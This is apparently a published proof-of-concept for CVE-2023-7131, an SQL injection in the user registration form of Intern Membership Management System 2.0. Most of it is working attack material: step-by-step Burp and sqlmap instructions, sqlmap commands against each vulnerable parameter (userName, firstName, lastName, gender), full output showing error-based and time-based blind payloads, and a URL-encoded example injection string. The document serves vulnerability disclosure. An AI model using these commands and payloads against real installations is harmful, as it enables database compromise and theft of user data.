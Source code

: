 # CVE-2023-7131_Intern_Membership_Management_System-SQL-Injection
+ **Exploit Title:** CVE-2023-7131_Intern_Membership_Management_System-SQL-Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-2023-7131

## References: 
+ **CVE-2023-7131:** https://vuldb.com/?id.249134
+ https://www.cve.org/CVERecord?id=CVE-2023-7131
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7131

## Description:
Intern Membership Management System 2.0 allows SQL Injection via parameters 'userName', 'firstName', 'lastName', and 'gender' in "/intern/user_registration/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Fill the form and click 'Register' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'userName', 'firstName', 'lastName', and 'gender' parameters to dump the database. 
+ `python sqlmap.py -r r.txt -p userName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:08:01] [INFO] parsing HTTP request from 'r.txt'
[23:08:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test'||(SELECT 0x41516658 WHERE 5902=5902 AND (SELECT 6279 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(6279=6279,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test'||(SELECT 0x4b4f7742 WHERE 6652=6652 AND (SELECT 1818 FROM (SELECT(SLEEP(5)))EDSH))||'&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:08:03] [INFO] testing MySQL
[23:08:03] [INFO] confirming MySQL
[23:08:03] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:08:03] [INFO] fetching current database
[23:08:03] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p firstName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
[23:10:30] [INFO] parsing HTTP request from 'r.txt'
[23:10:32] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test'||(SELECT 0x72666763 WHERE 6198=6198 AND (SELECT 3585 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(3585=3585,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test'||(SELECT 0x4c58726c WHERE 5649=5649 AND (SELECT 7272 FROM (SELECT(SLEEP(5)))edvW))||'&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:10:32] [INFO] testing MySQL
[23:10:33] [INFO] confirming MySQL
[23:10:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[23:10:33] [INFO] fetching current database
[23:10:33] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p lastName --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: lastName (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x75425548 WHERE 3456=3456 AND (SELECT 4050 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(4050=4050,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test'||(SELECT 0x49745477 WHERE 1875=1875 AND (SELECT 8777 FROM (SELECT(SLEEP(5)))cVgI))||'&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male&terms=on&register-user=Register
---
[23:13:41] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.5
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:13:41] [INFO] fetching current database
[23:13:41] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ `python sqlmap.py -r r.txt -p gender --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db`
```
---
Parameter: gender (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x73574b73 WHERE 9608=9608 AND (SELECT 9046 FROM(SELECT COUNT(*),CONCAT(0x71626b6a71,(SELECT (ELT(9046=9046,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&terms=on&register-user=Register

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=test&firstName=test&lastName=test&password=P@ss123&confirm_password=P@ss123&userEmail=test@mail.com&gender=Male'||(SELECT 0x67657950 WHERE 3206=3206 AND (SELECT 2290 FROM (SELECT(SLEEP(5)))OKGZ))||'&terms=on&register-user=Register
---
[23:17:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.5, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:17:12] [INFO] fetching current database
[23:17:12] [INFO] resumed: 'db_issm'
current database: 'db_issm'
```

+ current database: `db_issm`
![1_sqlmap](https://github.com/h4md153v63n/CVEs/assets/5091265/ab492034-196a-4f84-b0d0-3fbbbc25ae87)

+ Example payload:
```
-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27
```
![1_burp](https://github.com/h4md153v63n/CVEs/assets/5091265/910b1684-ab8a-4da2-874f-ff75c38eb727)
